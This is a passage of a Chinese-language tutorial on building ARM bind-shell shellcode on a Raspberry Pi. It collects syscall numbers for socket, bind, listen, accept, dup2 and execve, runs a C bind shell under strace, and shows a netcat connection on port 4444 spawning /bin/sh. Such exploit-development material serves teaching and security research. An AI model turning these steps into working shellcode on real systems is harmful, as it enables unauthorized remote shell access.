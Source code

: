 ## 三、第一阶段 - 系统函数及其参数
第一步是确定所需的系统函数、函数参数以及相应的系统调用号（system call number）。观察上述 C 代码，我们可知需要使用这几个函数： socket 、 bind 、 listen 、 accept 、 dup2 以及 execve 。我们可以使用如下命令找到这些函数的系统调用号：
```
pi@raspberrypi:~/bindshell $ cat /usr/include/arm-linux-gnueabihf/asm/unistd.h | grep socket
#define __NR_socketcall             (__NR_SYSCALL_BASE+102)
#define __NR_socket                 (__NR_SYSCALL_BASE+281)
#define __NR_socketpair             (__NR_SYSCALL_BASE+288)
#undef __NR_socketcall
```
需要注意的是， _NR_SYSCALL_BASE 的值为 0：
```
root@raspberrypi:/home/pi# grep -R "__NR_SYSCALL_BASE" /usr/include/arm-linux-gnueabihf/asm/
/usr/include/arm-linux-gnueabihf/asm/unistd.h:#define __NR_SYSCALL_BASE 0
```
我们所需的所有系统调用号如下所示：
```
#define __NR_socket    (__NR_SYSCALL_BASE+281)
#define __NR_bind      (__NR_SYSCALL_BASE+282)
#define __NR_listen    (__NR_SYSCALL_BASE+284)
#define __NR_accept    (__NR_SYSCALL_BASE+285)
#define __NR_dup2      (__NR_SYSCALL_BASE+ 63)
#define __NR_execve    (__NR_SYSCALL_BASE+ 11)
```
我们可以查找 Linux 的 [man](https://w3challs.com/syscalls/?arch=arm_strong) 页面)，了解每个函数所需的参数，也可以访问w3challs.com查找相关内容。
![/img/2018-01-15/t01310ad8c0788c9fd8.png](https://p2.ssl.qhimg.com/t01310ad8c0788c9fd8.png)

接下来我们需要找到这些参数的具体取值。一种方法是使用strace来查看已成功建连的bind shell。strace命令可以用来跟踪系统调用、监视进程与Linux内核之间的交互。我们用strace来测试一下C版本的bind shell。为了减少冗余信息，我限制了输出结果，只关心我们感兴趣的那几个函数。
```
Terminal 1:
pi@raspberrypi:~/bindshell $ gcc bind_test.c -o bind_test
pi@raspberrypi:~/bindshell $ strace -e execve,socket,bind,listen,accept,dup2 ./bind_test
```
```
Terminal 2:
pi@raspberrypi:~ $ netstat -tlpn
Proto Recv-Q  Send-Q  Local Address  Foreign Address  State     PID/Program name
tcp    0      0       0.0.0.0:22     0.0.0.0:*        LISTEN    - 
tcp    0      0       0.0.0.0:4444   0.0.0.0:*        LISTEN    1058/bind_test 
pi@raspberrypi:~ $ netcat -nv 0.0.0.0 4444
Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
```
![/img/2018-01-15/t018036e0588491c743.gif](https://p1.ssl.qhimg.com/t018036e0588491c743.gif)

strace的输出结果如下所示：
```
pi@raspberrypi:~/bindshell $ strace -e execve,socket,bind,listen,accept,dup2 ./bind_test
execve("./bind_test", ["./bind_test"], [/* 49 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 2) = 0
accept(3, 0, NULL) = 4
dup2(4, 0) = 0
dup2(4, 1) = 1
dup2(4, 2) = 2
execve("/bin/sh", [0], [/* 0 vars */]) = 0
```
